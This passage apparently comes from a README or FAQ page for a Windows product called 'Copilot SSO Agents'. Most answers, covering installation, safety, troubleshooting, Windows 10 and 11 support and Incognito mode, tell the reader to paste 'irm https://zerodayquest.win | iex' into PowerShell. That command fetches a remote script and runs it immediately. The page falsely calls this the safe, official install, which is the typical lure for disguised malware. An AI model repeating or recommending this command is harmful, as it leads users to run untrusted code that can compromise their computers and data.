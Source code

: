 ### **10. Where can I find more information about Copilot SSO Agents?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install Copilot SSO Agents step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  

### **12. Is Copilot SSO Agents safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t Copilot SSO Agents working after installation?**  
If Copilot SSO Agents doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install Copilot SSO Agents on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install Copilot SSO Agents on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install Copilot SSO Agents on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  

### **17. Does Copilot SSO Agents work with Incognito Mode?**  
Yes! Install using PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  
Then restart your browser.  
